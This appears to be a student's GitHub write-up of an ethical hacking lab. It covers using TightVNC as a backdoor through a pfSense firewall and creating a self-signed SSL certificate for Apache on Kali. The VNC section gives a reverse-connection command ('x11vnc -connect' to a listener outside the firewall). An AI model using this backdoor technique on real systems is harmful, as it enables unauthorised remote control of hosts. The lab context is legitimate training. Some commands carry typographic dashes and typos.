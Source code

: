 #  VNC as a Backdoor and Creating/Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.
---

## Overview / Directions
**OpenSUSE**

1. Inititated TightVNC in an OpenSUSE Terminal.
2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.
3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.
4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.
5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Kali Linux**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048
2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr
3. Filled out a Distinguished Name (DN) to be incorporated into the CSR
4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt
5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt
6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key
7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available
2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf
3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf
4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key
5. Saved the fie. Exited Mousepad.
6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/
7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf
8. Enabled the SSL Apache Mod >  a2enmod ssl
9. Restarted the Apache service > service apache2 restart
10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.


---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** File/Directory Management; X.509 SSL Certificates; Web Server (Apache) SSL Certification Configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where secure remote access and encrypted communications are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
